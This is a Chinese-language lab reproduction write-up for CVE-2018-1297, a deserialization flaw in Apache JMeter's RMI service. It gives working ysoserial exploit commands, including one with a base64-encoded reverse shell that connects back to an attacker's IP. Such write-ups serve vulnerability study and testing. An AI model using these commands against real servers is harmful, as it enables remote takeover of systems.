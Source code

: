# Jmeter RMI 反序列化命令执行漏洞 CVE-2018-1297

## 漏洞描述

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

运行完成后，将启动一个RMI服务并监听1099端口。

## 漏洞复现

直接使用ysoserial即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

![image-20220224184247828](images/202202241842237.png)

我们使用的是BeanShell1这条利用链。使用`docker-compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：

![image-20220224184300323](images/202202241843397.png)

反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit 192.168.174.128 1099 BeanShell1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

监听9999端口，成功接收反弹shell：

![image-20220224184640447](images/202202241846550.png)

